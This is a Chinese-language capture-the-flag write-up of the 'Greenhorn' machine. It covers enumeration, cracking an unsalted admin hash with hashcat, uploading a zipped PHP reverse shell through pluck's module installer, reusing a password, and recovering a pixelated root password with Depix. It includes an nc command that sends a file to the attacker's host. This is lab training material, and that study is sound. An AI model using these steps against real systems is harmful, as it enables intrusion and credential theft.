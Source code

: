 ```yaml
---
description: Easy / 枚举 / 阅读源码 / 文件上传 / 图像解析
---
```


# ✔️ Greenhorn

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描，获得3个开放端口：

```bash
nmap -sC -sV -p- -oA greenhorn 10.129.61.36 --open
```

<figure><img src="../../.gitbook/assets/1 (9).png" alt=""><figcaption></figcaption></figure>

* 将IP和域名添加到/etc/hosts文件后，开始检查80端口上的内容，发现了目标正在运行的软件pluck和admin登录的入口：

<figure><img src="../../.gitbook/assets/2 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 进入admin面板后发现了pluck的版本（4.7.18），随后尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 转到3000端口依次对其内容进行信息收集，发现其正在运行的是Gitea 1.21.11并且还有目标系统的源码：

<figure><img src="../../.gitbook/assets/8 (12).png" alt=""><figcaption></figcaption></figure>

* 其中有几个文件可以重点关注：admin.php / login.php

<figure><img src="../../.gitbook/assets/9 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (10).png" alt=""><figcaption></figcaption></figure>

* 在`login.php`这个文件中，其源码描述了关于用户登陆验证的过程。其中使用了SHA-512算法加密了密码(未加盐)，这意味着可以使用暴力破解。并且也指明了密码文件是pass.php：

<figure><img src="../../.gitbook/assets/11 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (10).png" alt=""><figcaption></figcaption></figure>

* `pass.php`位于/data/settings/pass.php该路径下，里面有一个hash密码，把它保存为一个hashes.txt文件用于后续暴破：

<figure><img src="../../.gitbook/assets/13 (11).png" alt=""><figcaption></figcaption></figure>

* 在hash example上查找对应的模式，用于hashcat暴破（不确定是哪种就附近几个都试一下）：

<figure><img src="../../.gitbook/assets/14 (9).png" alt=""><figcaption></figcaption></figure>

```bash
hashcat -m 1700 hashes.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/15 (9).png" alt=""><figcaption></figcaption></figure>

* 暴破出明文密码：<mark style="color:red;">**iloveyou1**</mark>，由此获得第一个有效凭证: <mark style="color:red;">**admin : iloveyou1**</mark>

<figure><img src="../../.gitbook/assets/16 (7).png" alt=""><figcaption></figcaption></figure>

* 利用该凭证成功登录80端口的admin界面：

<figure><img src="../../.gitbook/assets/17 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (7).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 在信息枚举阶段获取到的Web页面运行的pluck 4.7.18确实是有一个远程代码执行的漏洞，但是在本例中的漏洞利用阶段仅起到了辅助作用，并未直接利用：

<figure><img src="../../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

* 从该漏洞脚本中可以确认其上传文件的类型是zip类型，这为后续上传反弹shell做了提示：

<figure><img src="../../.gitbook/assets/7 (12).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 通过之前收集到的信息和发现的可利用脚本得知，可以往包含漏洞的目标系统上上传利用脚本，这里直接上传常用的一个php的反弹shell脚本（pentestmonkey），修改自己的kali本机IP和端口，做好监听:

<figure><img src="../../.gitbook/assets/21 (5).png" alt=""><figcaption></figcaption></figure>

* 本例中有两个可以上传的功能点，一个是manage files，一个是manage modules，分别尝试等待回连：

<figure><img src="../../.gitbook/assets/22 (5).png" alt=""><figcaption></figcaption></figure>

* 直接上传php脚本可以上传成功，但是无法触发，因为目标做了保护直接在我的脚本后面加了txt后缀：

<figure><img src="../../.gitbook/assets/23 (5).png" alt=""><figcaption></figcaption></figure>

* 根据之前找到的pluck 4.7.18远程代码执行漏洞的脚本提示，需要将上传的文件压缩成ZIP文件才可以成功执行，所以把反弹shell脚本压缩成ZIP文件：

```bash
zip revershell.zip revershell.php
```

<figure><img src="../../.gitbook/assets/24 (4).png" alt=""><figcaption></figcaption></figure>

* 再次上传发现还是可以成功，但仍然无法执行回连：

<figure><img src="../../.gitbook/assets/25 (3).png" alt=""><figcaption></figcaption></figure>

* 切换测试下一个上传点

### GET SHELL

* 可尝试用之前的有效凭证登录一下ssh服务，但是失败：

<figure><img src="../../.gitbook/assets/18 (8).png" alt=""><figcaption></figcaption></figure>

* 在manage modules中的install a module中尝试上传反弹shell：

<figure><img src="../../.gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

* 至此，上传成功后即可获得回连的shell：

<figure><img src="../../.gitbook/assets/28 (4).png" alt=""><figcaption></figcaption></figure>

* 但是当枚举出user.txt文件后，发现没有权限访问其内容：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

* 因为该文件是位于junior用户的/home目录中，而我当前的用户是www-data，需要切换到junior账户下才能读取，这里又是一个密码重用的问题：

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单的执行手动枚举时，发现当前账户junior并没有一些基本命令的执行权限：

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 并且在之前读取user.txt文件时，在其/home目录下还发现了一个PDF文件：Using OpenVAS.pdf

```bash
# 将远程文件传输到Kali本地：
nc 10.10.16.14 1234 < 'Using OpenVAS.pdf'
nc -lvnp 1234 > usingOpenVAS.pdf
```

<figure><img src="../../.gitbook/assets/32.png" alt=""><figcaption></figcaption></figure>

* 该pdf文件描述了只有root用户可以使用\`sudo /usr/sbin/openvas\`命令，并且附上了密码，不过该密码被打上了码：

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例学习到了一个新工具：Depix，该工具是用于将打了码的模糊图像恢复成文本的工具。提供给该工具进行解析的图片文件不要用截图工具，直接将鼠标放在模糊的文本处，save image as...即可保存。
{% endhint %}

* Depix的使用方法在它的GitHub页面有说明 ：

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 运行Depix后解析出来了文本图片，该文本也就是root账户的明文密码，随后切换为root用户登录即可：

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/36.png" alt=""><figcaption></figcaption></figure>

* 重新连接一下：

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例Get Shell阶段枚举、阅读源码和对各个上传点的尝试是重点，提权部分不算典型的OSCP机型，图像解析的部分更偏向于CTF。该机器确实不属于困难机器，只是之前没有遇到过将打码图片转换为清晰图像的情况。

(本例机器中途重置过，IP地址有改变，但不影响其利用过程和实现结果)
{% endhint %}
